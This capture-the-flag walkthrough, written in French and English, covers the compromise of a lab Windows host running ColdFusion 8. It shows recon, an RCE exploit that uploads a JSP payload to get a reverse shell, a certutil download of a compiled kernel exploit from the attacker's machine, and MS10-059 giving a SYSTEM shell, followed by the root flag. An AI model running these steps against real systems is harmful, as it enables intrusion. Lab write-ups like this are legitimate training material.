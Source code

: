 ## Recon

```
─# /home/blo/tools/nmapautomate/nmapauto.sh $ip

###############################################
###---------) Starting Quick Scan (---------###
###############################################

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-27 18:24 CST
Initiating Ping Scan at 18:24
Scanning 10.129.136.143 [4 ports]
Completed Ping Scan at 18:24, 2.18s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:24
Completed Parallel DNS resolution of 1 host. at 18:24, 0.00s elapsed
Initiating SYN Stealth Scan at 18:24
Scanning 10.129.136.143 [1000 ports]
SYN Stealth Scan Timing: About 99.99% done; ETC: 18:28 (0:00:00 remaining)
Completed SYN Stealth Scan at 18:28, 231.60s elapsed (1000 total ports)
Nmap scan report for 10.129.136.143
Host is up (2.0s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

----------------------------------------------------------------------------------------------------------
Open Ports : 135,8500,49154                                                                                                                                                                  
--------------------------------
```

**Deeeper Scan**
```
Service scan Timing: About 66.67% done; ETC: 18:33 (0:00:47 remaining)
Nmap scan report for 10.129.136.143
Host is up (0.58s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


```
─# rpcclient -N -U '' $ip -p 49154
Cannot connect to server.  Error was NT_STATUS_IO_TIMEOUT
```

Un site web disponible au port `8500`. Let's check

```
Parent ..                                              dir   03/22/17 08:52 μμ
Application.cfm                                       1151   03/18/08 11:06 πμ
adminapi/                                              dir   03/22/17 08:53 μμ
administrator/                                         dir   03/22/17 08:55 μμ
classes/                                               dir   03/22/17 08:52 μμ
componentutils/                                        dir   03/22/17 08:52 μμ
debug/                                                 dir   03/22/17 08:52 μμ
images/                                                dir   03/22/17 08:52 μμ
install.cfm                                          12077   03/18/08 11:06 πμ
multiservermonitor-access-policy.xml                   278   03/18/08 11:07 πμ
probe.cfm                                            30778   03/18/08 11:06 πμ
scripts/                                               dir   03/22/17 08:52 μμ
wizards/                                               dir   03/22/17 08:52 μμ
```
Je trouve ces dossiers et j'accede aux administrator.
Dans celle-ci je trouve `Adobe ColdFusion 8 Administrator`
Let's search for exploit

```
└─# searchsploit coldfusion 8
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting                                                                                                        | cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                                                                                                                     | multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                                                                                                        | multiple/remote/16985.rb
Adobe ColdFusion 11 - LDAP Java Object Deserialization Remode Code Execution (RCE)                                                                         | windows/remote/50781.txt
Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code Execution                                                                | windows/remote/43993.py
Adobe ColdFusion 2018 - Arbitrary File Upload                                                                                                              | multiple/webapps/45979.txt
Adobe ColdFusion 6/7 - User_Agent Error Page Cross-Site Scripting                                                                                          | cfm/webapps/29567.txt
Adobe ColdFusion 7 - Multiple Cross-Site Scripting Vulnerabilities                                                                                         | cfm/webapps/36172.txt
Adobe ColdFusion 8 - Remote Command Execution (RCE)                                                                                                        | cfm/webapps/50057.py
Adobe ColdFusion 9 - Administrative Authentication Bypass 

```
ici je trouve un exploit de RCE.
Je met l'exploit en local, je le modifie et hop je suis dedans 

```
─# python3 coldfusion.py         

Generating a payload...
Payload size: 1496 bytes
Saved as: c39559fbd32947c597bc9bbc08db4a9f.jsp

Priting request...
Content-type: multipart/form-data; boundary=854f29a3ce9247d89abbcf5729ffc490
Content-length: 1697

--854f29a3ce9247d89abbcf5729ffc490
Content-Disposition: form-data; name="newfile"; filename="c39559fbd32947c597bc9bbc08db4a9f.txt"
Content-Type: text/plain


Printing some information for debugging...
lhost: 10.10.16.4
lport: 1337
rhost: 10.129.136.143
rport: 8500
payload: c39559fbd32947c597bc9bbc08db4a9f.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 1337 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.136.143] 49295
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

## Privilege Escalation
Je vais d'abord commencer par voir mes privilege

```
C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
Bon ici, J'ai le `SeImpersonatePrivilege` qui est active, so je vais voir quoi faire

- https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/

Mais ca ne marche pas, alors je vais verifier le kernel pour voir s'il existe d'eventuelle vulnerabilite
Pour cela je vais utiliser le `systeminfo` pour avoir la version et ensuite faire du Goole pour trouver un exploit
- https://www.exploit-db.com/exploits/40564

J'ai trouver celle-ci alors Let's dive on it
La vulnerabilite proviend de L'AFD. Le pilote de fonction auxiliaire (AFD) prend en charge les sockets Windows et se trouve dans le fichier afd.sys.
Une vulnérabilité de type élévation de privilèges existe lorsque l'AFD valide de manière incorrecte les données transmises au noyau depuis le mode utilisateur.
Un attaquant doit avoir des identifiants de connexion valides et être en mesure de se connecter localement pour exploiter la vulnérabilité.
se connecter localement pour exploiter la vulnérabilité.
Un attaquant qui réussirait à exploiter cette vulnérabilité pourrait
exécuter du code arbitraire en mode noyau (c'est-à-dire avec les privilèges NT AUTHORITY\SYSTEM
avec les privilèges NT).

```
└─# i686-w64-mingw32-gcc 40564.c -o afd_exploit.exe -lws2_32

└─# file afd_exploit.exe    
afd_exploit.exe: PE32 executable (console) Intel 80386, for MS Windows, 17 sections
```

Je l'ai compiler, No transferons et executons

```
C:\Users\tolis\Desktop>certutil -urlcache -f http://10.10.16.4/afd_exploit.exe afd_exploit.exe
certutil -urlcache -f http://10.10.16.4/afd_exploit.exe afd_exploit.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\tolis\Desktop
```

Elle marche pas alors je vais en chercher un autre

- https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059



```
C:\Users\tolis\DesktopMS10-059.exe
MS10-059.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
C:\Users\tolis\Desktop>MS10-059.exe 10.10.16.4 1337
MS10-059.exe 10.10.16.4 1337
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>

└─# sudo rlwrap nc -lnvp 1337                        
listening on [any] 1337 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.136.143] 49718
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Desktop>whoami
whoami
nt authority\system

C:\Users\tolis\Desktop>cd C:\users\administrator\desktop
cd C:\users\administrator\desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
464950342532faa0105af8364357a3a8


```